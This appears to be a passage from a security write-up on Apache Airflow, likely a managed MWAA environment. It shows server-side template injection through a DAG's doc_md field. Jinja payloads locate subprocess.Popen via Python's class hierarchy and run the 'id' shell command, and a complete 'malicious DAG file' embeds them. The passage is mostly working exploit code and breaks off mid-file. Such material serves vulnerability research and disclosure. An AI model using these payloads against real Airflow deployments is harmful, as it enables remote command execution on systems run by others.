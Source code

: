 ```
doc_md="""
{{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}
"""
```


![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_3.png)


If the class name from the previous step is correct, the index is the correct one so it is possible to execute commands like this:

```
doc_md="""
{{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}
"""
```


![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_4.png)


A complete malicious DAG file could look like this:

```
from datetime import datetime, timedelta
from airflow import DAG
from airflow.operators.python import PythonOperator

def say_hello():
    print("Hello World from Airflow!")

default_args = {
    'owner': 'airflow',
    'retries': 1,
    'retry_delay': timedelta(minutes=1),
}

with DAG(
    dag_id='test_3',
    default_args=default_args,
    description='Un DAG cualquiera',
    schedule_interval='@daily',
    start_date=datetime(2025, 5, 7),
    catchup=False,
    tags=['ejemplo'],
    doc_md="""
    # Test 3
    ### Class Name
    {{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}
    ### Command Output
    {{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}
```